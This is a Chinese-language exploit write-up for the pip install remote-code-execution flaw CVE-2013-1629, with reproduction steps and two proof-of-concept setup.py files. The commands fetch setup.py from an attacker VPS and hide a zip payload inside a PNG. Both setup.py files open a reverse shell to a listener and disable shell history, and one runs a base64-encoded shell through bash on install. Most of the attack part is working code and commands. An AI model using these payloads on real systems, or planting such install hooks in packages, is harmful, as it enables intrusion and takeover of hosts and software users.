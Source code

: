 # Python pip install RCE 漏洞 CVE-2013-1629

# Python pip install RCE 漏洞 CVE-2013-1629

## 漏洞描述

当通过 HTTP 从 Pypi 存储库检索包时，不会检查包内容的完整性。利用这个缺陷，攻击者可以通过 `pip install` 来执行代码。

参考阅读：

- https://github.com/0x00-0x00/FakePip
- https://www.sourceclear.com/vulnerability-database/security/remote-code-execution-rce-using-pip/python/sid-2098

## 影响版本

```
pip < 1.3
```

## 漏洞复现

### 方式1 FakePip

将 [setup.py](#漏洞POC) 文件下载到远程目标：

```
$ wget http://your-vps-ip/setup.py
```

在 VPS 上监听端口，在远程目标上执行命令：

```
$ mkdir fakepip
$ mv setup.py fakepip/
$ cd fakepip
# sudo /usr/bin/pip install . --upgrade --force-reinstall
```

成功获取反弹 Shell。

### 方式2 图片马

将 [setup.py](#漏洞POC) 文件放在文件夹中并压缩命名为，选择一张图片 test.png，制作图片马：

```
$ copy /b test.png + pic.zip pic.png
```

在 VPS 上监听端口，将图片上传至公网图床，复制链接，在远程目标上执行命令：

```
$ pip install " https://<your-img-link>"
```

也将图片可以上传到 VPS，在远程目标上执行命令：

```
$ pip3 install "http://192"."168"."xx"."xxx/pic.png"
```

## 漏洞POC

方式1 setup.py

```python
from setuptools import setup
from setuptools.command.install import install
import base64
import os


class CustomInstall(install):
  def run(self):
    install.run(self)
    LHOST = 'localhost'  # change this
    LPORT = 13372
    
    reverse_shell = 'python -c "import os; import pty; import socket; s = socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect((\'{LHOST}\', {LPORT})); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); os.putenv(\'HISTFILE\', \'/dev/null\'); pty.spawn(\'/bin/bash\'); s.close();"'.format(LHOST=LHOST,LPORT=LPORT)
    encoded = base64.b64encode(reverse_shell)
    os.system('echo %s|base64 -d|bash' % encoded)


setup(name='FakePip',
      version='0.0.1',
      description='This will exploit a sudoer able to /usr/bin/pip install *',
      zip_safe=False,
      cmdclass={'install': CustomInstall})
```

方式2 setup.py

```python
from setuptools import setup
import socket,subprocess,os
def run():
  import socket, time,pty, os
  host='{LHOST}'
  port='{LPORT}'
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.settimeout(10)
  s.connect((host,port))
  os.dup2(s.fileno(),0)
  os.dup2(s.fileno(),1)
  os.dup2(s.fileno(),2)
  os.putenv("HISTFILE",'/dev/null')
  pty.spawn("/bin/bash")
  s.close()
run()

setup(name="FakePip", version="1.0")
```


